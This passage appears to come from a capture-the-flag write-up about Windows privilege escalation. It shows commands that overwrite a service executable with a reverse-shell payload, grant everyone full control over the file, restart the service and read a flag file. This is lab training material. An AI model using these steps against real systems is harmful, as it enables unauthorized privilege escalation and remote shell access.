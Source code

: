 	* Replace original file with our payload
	
		```
		move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
		icacls C:\MyPrograms\Disk.exe /grant Everyone:F
		```

	* Start a reverse listener on our attacker machine

		![task5-listener2](./images/task5-listener2.png)

	* Restart service
	
		![task5-restart2](./images/task5-restart2.png)

	* Get the resverse shell & the flag
	
		`type C:\Users\svcusr2\Desktop\flag.txt`

		![task5-svcusr2-flag](./images/task5-svcusr2-flag.png)

* Get the flag on the Administrator's desktop.
